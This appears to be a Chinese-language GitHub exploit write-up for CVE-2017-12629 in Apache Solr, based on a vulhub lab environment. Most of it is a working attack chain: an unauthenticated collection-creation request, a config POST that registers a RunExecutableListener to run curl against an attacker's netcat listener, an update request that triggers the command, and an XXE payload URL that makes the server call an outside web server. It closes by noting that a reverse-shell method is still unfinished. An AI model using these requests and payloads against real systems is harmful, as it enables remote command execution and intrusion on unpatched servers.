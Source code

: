 CVE-2017-12629利用的一些说明
--

### 说明

这个漏洞需要在分布式安装的情况下才能完整利用，但是我看到vulhub上的环境，他不是分布式搭建的solr,依然可以利用，我猜测大概是因为测试环境，我们事先是知道core的名字或者collection名字的，所以在大家使用vulhub上solr的漏洞环境，依然可以成功执行命令，但是在真实的环境中我们可能不知道core或者collection的名字，所以这个时候如果目标搭建的一个分布式solr,我们不知道现有的core或者collection名也没有关系，因为，分布式solr允许我们未授权创建一个collection。这就为后续的漏洞利用提供了条件。

### RCE利用流程

上面也提到了，vulhub上的漏洞环境是定制的，我们是提前知道core名的，所以那个攻击链是不完整的，我们这里，所以我这里贴出完整的攻击链

引用exp-db上的

- Step 1. Create a new collection:

`http://localhost:8983/solr/admin/collections?action=CREATE&name=newcollection&numShards=2`

![](assets/屏幕截图_9.png)

- Step 2. Set up a listener on any port by using netcat command "nc -lv 4444"

- Step 3. Add a new RunExecutableListener listener for the collection where "exe" attribute contents the name of running command ("/usr/bin/curl") and "args" attribute contents "http://localhost:4444/executed" value to make a request to the attacker's netcat listener:

```
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/executed"]
  }
}
```
![](assets/setp2.png)

- Step 4. Update "newcollection" to trigger execution of RunExecutableListener: 
  
```
POST /solr/newcollection/update HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 19

[{"id":"test"}]
```
![](assets/setp4.png)

- Step 5. You will see a request from the Solr server on your netcat listener. It proves that the curl command is executed on the server.


![](assets/setp5.png)

以上就是一个完整的命令执行流程

poc:apache_solr_cmd_exec_cve201712629

### XXE 利用流程

xxe的利用是不需要分布式的solr的，可利用性更大，payload(注意下面的axina应该替换为目标机上已有的core名，可以通过访问/solr/admin/cores查看):

`http://127.0.0.1:8983/solr/axina/select?q={!xmlparser%20v=%27%3C!DOCTYPE%20a%20SYSTEM%20%22http://127.0.0.1:8000/test%22%3E%3Ca%3E%3C/a%3E%27}`

我本地的webserver收到了请求：

![](assets/webinfo.png)

说明漏洞成功触发

### 参数注入的方式利用漏洞


### 参考

环境搭建及利用参考：https://blog.csdn.net/qq_33020901/article/details/79131870

漏洞分析参考：https://paper.seebug.org/425/

### 注

反弹shell利用方式，还没有完善，留个坑